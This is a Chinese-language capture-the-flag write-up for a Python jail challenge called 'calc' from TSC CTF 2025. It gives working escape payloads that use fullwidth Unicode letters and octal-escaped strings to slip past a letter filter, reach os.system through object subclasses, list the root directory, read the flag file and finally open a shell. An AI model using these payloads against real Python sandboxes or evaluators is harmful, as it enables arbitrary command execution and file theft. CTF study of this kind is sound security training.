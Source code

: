 ##### tags:`TSC_CTF_2025`

# TSC CTF MISC：calc

<style>
.red {
  color: red;
}
.blue {
  color: blue;
}
.purple {
  color: #7D3382;
}
.light_purple {
  color: #810cf5;
}
</style>

## <span class="red">**題目**</span>

- ![image](https://hackmd.io/_uploads/SypDjoVDyg.png)

&emsp;

## <span class="red">**解題過程**</span>

1. **延續 Baby Jail 的解題 payload ，一開始嘗試使用 ```(().__ｃｌａｓｓ__.__ｂａｓｅ__.__ｓｕｂｃｌａｓｓｅｓ__().ｐｏｐ(120))().ｌｏａｄ_ｍｏｄｕｌｅ('ｏｓ').ｓｙｓｔｅｍ("ｌｓ /")``` 去繞過 ascii_letters 檢查 ，但現在要解決的地方是使用 os 如果是全形 load_module 會讀不懂**

- ![image](https://hackmd.io/_uploads/SyEdzyrPJe.png)

&emsp;

2. **這時候我們就可以用神奇的 8 進制， 像是 ```(().__ｃｌａｓｓ__.__ｂａｓｅ__.__ｓｕｂｃｌａｓｓｅｓ__().ｐｏｐ(120))().ｌｏａｄ_ｍｏｄｕｌｅ("\157\163").ｓｙｓｔｅｍ("\154\163 /")``` ，這段 payload 中 ```"\157\163" = "os"``` 且 ```"\154\163 /" = "ls /"```。這行指令能先知道 / 下有哪些資訊**

- ![image](https://hackmd.io/_uploads/HksXzJBwyg.png)

&emsp;

3. **發現有個 flag 的檔案，那我就可以下 ```cat /f*``` 去找到 flag 的內容。**

- ***像是```(().__ｃｌａｓｓ__.__ｂａｓｅ__.__ｓｕｂｃｌａｓｓｅｓ__().ｐｏｐ(120))().ｌｏａｄ_ｍｏｄｕｌｅ("\157\163").ｓｙｓｔｅｍ("\143\141\164\ /\146*")```**

- ![image](https://hackmd.io/_uploads/HyjVMJSv1e.png)

&emsp;

## <span class="red">**額外收穫**</span>

1. **改動 payload 變為 ```().__ｃｌａｓｓ__.__ｂａｓｅ__.__ｓｕｂｃｌａｓｓｅｓ__().ｐｏｐ(155).__ｉｎｉｔ__.__ｇｌｏｂａｌｓ__.ｇｅｔ("\163\171\163\164\145\155")("\163\150")``` ，其中 ```"\163\171\163\164\145\155" = "system"``` 且 ```"\163\150" = "sh"``` ，這樣的好處是可以直接控制 shell ，也就是之後的指令可以直接下不需要每次都做 Bypass**
